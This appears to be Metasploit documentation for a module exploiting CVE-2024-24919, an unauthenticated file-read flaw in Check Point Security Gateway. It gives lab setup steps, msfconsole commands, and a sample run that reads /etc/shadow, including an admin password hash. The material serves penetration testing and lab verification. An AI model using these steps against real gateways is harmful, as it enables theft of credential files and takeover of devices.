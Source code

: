 ## Vulnerable Application
This module leverages an unauthenticated arbitrary root file read vulnerability for
Check Point Security Gateway appliances. When the IPSec VPN or Mobile Access blades
are enabled on affected devices, traversal payloads can be used to read any files on
the local file system. Password hashes read from disk may be cracked, potentially
resulting in administrator-level access to the target device. This vulnerability is
tracked as CVE-2024-24919.

## Options

### STORE_LOOT
Whether the read file's contents should be outputted to the console or stored as loot (default: false).

### TARGETFILE
The target file to read (default: /etc/shadow). This should be a full Linux file path. Files containing binary data may
not be read accurately.

## Testing
To set up a test environment:
1. Download an affected version of Check Point Security Gateway (Such as Check_Point_R81.20_T631.iso, SHA1:
42e25f45ab6b1694a97f76ca363d58040802e6d6).
1. Install the ISO within a virtual machine.
1. Browse to the administrator web dashboard on port 443 and complete the first-time setup tasks.
1. On a Windows system, download and install a copy of Check Point SmartConsole, then use it to authenticate to Security Gateway.
1. In SmartConsole, enable and configure the vulnerable Mobile Access or IPSec VPN blades. These instructions focus on Mobile Access:
   1. Open the Gateway Properties:
      1. Navigate to Gateways & Servers in the left-hand menu.
      1. Select the gateway you want to configure.
      1. Right-click on the gateway and select Edit.
   1. Enable Mobile Access:
      1. In the General Properties tab, under Network Security, check the box for Mobile Access.
      1. Click on Mobile Access in the left-hand menu of the gateway properties window to access the Mobile Access settings.
   1. Configure Mobile Access:
      1. Set up the authentication methods under Authentication (e.g., LDAP, RADIUS, etc.).
      1. Configure the Portal Settings, specifying the URL for the Mobile Access Portal.
      1. Under Applications, define which applications and resources will be accessible via the Mobile Access portal.
      1. Click OK to close the properties window.
1. Publish and push the configuration changes to the device.
   1. In SmartConsole, after completing your configuration, click on the Publish button at the top right corner of the
      SmartConsole window. This will save your changes to the management database.
   1. After publishing the changes, click on the Install Policy button located at the top of the SmartConsole window.
   1. In the Install Policy window, select the policy package you want to install. This is typically your main security policy package.
   1. Choose the gateways on which you want to install the policy. Make sure to select the gateway that you configured
      for Mobile Access and/or IPSec VPN.
   1. Click Install to begin the installation process. Once this process completes the gateway should then be vulnerable to this module.


## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display the target file on the console instead of storing it as loot.
7. `run`

## Scenarios
### Check Point Security Gateway Linux
```
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > show options 

Module options (auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  false            yes       Store the target file as loot
   TARGETFILE  /etc/shadow      yes       The target file to read. This should be a full Linux file path. Files containing binary data may not be read accurately
   TARGETURI   /                yes       The URI path to Check Point Security Gateway
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set RHOSTS 192.168.181.128
RHOSTS => 192.168.181.128
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > check
[+] 192.168.181.128:443 - The target is vulnerable. Arbitrary file read successful!
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > run
[*] Running module against 192.168.181.128

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file read successful!
[+] File read succeeded! 
admin:$6$hHJHiZdC2kHPD5HQ$/0dtMC53GSaZpLA/MeChOvJNNE4i9qoKL57Dsl853wF/RRNzJJ6CO5/qBmzCM7KdEUmXanF3J8T50ppLh/Sf2/:14559:0:99999:8:::
monitor:*:19872:0:99999:8:::
root:*:19872:0:99999:7:::
cp_routeevt:*:19872:0:99999:7:::
nobody:*:19872:0:99999:7:::
postfix:*:19872:0:99999:7:::
rpm:!!:19872:0:99999:7:::
shutdown:*:19872:0:99999:7:::
pcap:!!:19872:0:99999:7:::
halt:*:19872:0:99999:7:::
cp_postgres:*:19872:0:99999:7:::
cp_extensions:*:19872:0:99999:7:::
cpep_user:*:19872:0:99999:7:::
vcsa:!!:19872:0:99999:7:::
_nonlocl:*:19872:0:99999:7:::
sshd:*:19872:0:99999:7:::

[*] Auxiliary module execution completed
```
